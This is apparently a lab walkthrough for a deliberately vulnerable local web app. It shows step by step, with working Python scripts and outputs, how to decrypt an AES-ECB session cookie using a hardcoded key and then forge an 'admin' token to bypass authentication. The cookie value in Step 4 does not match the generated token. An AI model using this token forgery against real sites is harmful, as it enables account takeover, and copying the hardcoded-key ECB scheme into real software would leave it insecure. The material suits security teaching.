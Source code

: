 ## Vulnerability Testing Guide

### Prerequisites:

- Python with `pycryptodome` installed
- The lab app running at `http://localhost:5000`
- Access to browser dev tools or Burp Suite

---

### Step 1: Log in as a Normal User

1. Go to `http://localhost:5000`
2. Use these credentials:

```
Username: user Password: user123
```

#### After logging in, open **Developer Tools → Application → Cookies** and copy the `session` cookie value.

T4HnG4zW93EKfs0gBciClA==`

---

### Step 2: Decrypt the Cookie Token

Create a Python script to decrypt the session token using the known hardcoded key and ECB mode:

```python
from Crypto.Cipher import AES
import base64

SECRET_KEY = b'SECRET_KEY_12345'

def unpad(s):
    return s[:-ord(s[-1])]

def decrypt_token(token):
    cipher = AES.new(SECRET_KEY, AES.MODE_ECB)
    decrypted = cipher.decrypt(base64.b64decode(token))
    return unpad(decrypted.decode())

token = input("Paste session cookie: ")
print("[*] Decrypted session:", decrypt_token(token))

```

### Expected Output

```
Paste session cookie: T4HnG4zW93EKfs0gBciClA== [*] Decrypted session: user
```

---
###  Step 3: Craft a Malicious Admin Token

Now that you understand how encryption works in the app, you can impersonate another user (e.g., `admin`) by encrypting that string yourself.

Use this script:
```python
from Crypto.Cipher import AES
import base64

SECRET_KEY = b'SECRET_KEY_12345'

def pad(s):
    pad_len = 16 - len(s) % 16
    return s + chr(pad_len) * pad_len

def encrypt_token(username):
    cipher = AES.new(SECRET_KEY, AES.MODE_ECB)
    padded = pad(username)
    encrypted = cipher.encrypt(padded.encode())
    return base64.b64encode(encrypted).decode()

print("[*] Generated session token:", encrypt_token("admin"))
```


### Output Example


```
[*] Generated session token: 8YebqTMLHZn0Q7oF7WyvZg==
```

---

### Step 4: Replace the Cookie & Bypass Auth

1. In your browser or Burp Suite, replace the current cookie:

```
session=p0Y5duTneeb0Iy1ekp0Dog==
```

1. Refresh `/dashboard`.

2. You should now see:
  
```
Welcome, admin!
```
![[Pasted image 20250603170718.png]]